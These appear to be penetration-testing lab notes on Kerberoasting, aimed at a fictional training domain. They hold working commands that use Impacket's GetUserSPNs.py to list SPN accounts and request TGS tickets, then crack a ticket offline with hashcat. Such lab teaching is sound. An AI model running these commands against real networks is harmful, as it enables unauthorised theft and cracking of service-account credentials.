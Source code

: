
## Kerberoasting with GetUserSPNs.py

Let's start by installing the Impacket toolkit, which we can grab from [Here](https://github.com/SecureAuthCorp/impacket). After cloning the repository, we can cd into the directory and install it as follows:

#### Installing Impacket using Pip

  Installing Impacket using Pip

```shell-session
gdxqpardo@htb[/htb]$ sudo python3 -m pip install .
```

**Need valid set of credentials for kerberoast**


A. **Gather a listing of SPNs in the domain. 
 We can authenticate to the Domain Controller with a cleartext password, NT password hash, or even a Kerberos ticket**

#### Listing SPN Accounts with GetUserSPNs.py

  Listing SPN Accounts with GetUserSPNs.py

```shell-session
gdxqpardo@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

#### Requesting all TGS Tickets

  Requesting all TGS Tickets

```shell-session
gdxqpardo@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```

We can also be more targeted and request just the TGS ticket for a specific account. Let's try requesting one for just the `sqldev` account.

#### Requesting a Single TGS ticket

  Requesting a Single TGS ticket

```shell-session
gdxqpardo@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```

#### Saving the TGS Ticket to an Output File

  Saving the TGS Ticket to an Output File

```shell-session
gdxqpardo@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

Here we've written the TGS ticket for the `sqldev` user to a file named `sqldev_tgs`. Now we can attempt to crack the ticket offline using Hashcat hash mode `13100`.

#### Cracking the Ticket Offline with Hashcat

  Cracking the Ticket Offline with Hashcat

```shell-session
gdxqpardo@htb[/htb]$ hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```